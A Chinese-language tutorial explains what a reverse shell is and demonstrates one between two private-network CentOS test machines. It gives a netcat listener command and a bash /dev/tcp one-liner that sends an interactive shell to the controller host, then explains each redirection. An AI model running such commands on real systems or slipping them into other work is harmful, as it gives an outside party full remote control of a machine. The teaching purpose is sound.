 # 反向shell

## 什么是反向shell

>[反向shell](https://baike.baidu.com/item/%E5%8F%8D%E5%90%91shell/16751835?fr=aladdin)的工作方式是远程计算机将自己的shell发送给特定的用户，而不是将shell绑定到一个端口上。后者在很多环境中是无法访问的。这样，你就可以对远程服务器执行root命令。
## 测试环境

* 控制端：10.60.188.188 、 CentOS-7
* 被控制端：10.60.30.88 、 CentOS-7

## 测试步骤

1. 控制端执行
   
```
    ~#: nc -lvp 50509       //监听一个tcp端口 50509
```

2. 被控制端执行

```
    ~#:bash -i > /dev/tcp/10.60.188.188/50509 0>&1 2>&1
```

3. 执行后，在控制端会进入一个 `被控端` 的命令行shell 。 可以执行一切命令，就相当于登录进 `被控制端一样`

效果图：

![控制端](./images/shell_server.png)

![控制端](./images/shell_client.png)


## 原理说明

* `nc -lvp 50509`  nc 命令很常用，这里只是监听一个tcp端口50509
* `bash -i` 开启一个交互式shell
* `bash -i > /dev/tcp/10.60.188.188/50509`   把这个交互式shell的输出，重定向给tcp 10.60.188.188:50509 。如果仅仅执行这个命令，那么被控制端接下来输入的任何东西，都会被传输到控制端
* `bash -i > /dev/tcp/10.60.188.188/50509 0>&1 2>&1` 交互式shell的 输入、输出、标准错误都传输到 tcp 10.60.188.188:50509。  （也就是说，执行完命令后，正常情况下，你期望的是执行完 `bash -i` 开启一个新的shell，然后你进行各种命令操作，此时你输入的各种命令来自于你自己的终端。 但是，我们的这个命令，把标准输入也设置为从 socket获取，同时标准输出 和标准错误 都传输给socket。  这样的话，也就是说，相当于通过这个socket 在被控制端执行了一个 交互式shell，那么此时你在控制端就可以对被控制端做任何操作了。）

## 补充

反向shell，通常被黑客所利用。 不过，说实话，对于普通大众个人电子设备在神级黑客面前可以说都是肉鸡，除了无奈，还是无奈。  不过，自己多了解一下知识，遇到这种情况了，不至于慌得一笔 ！
  


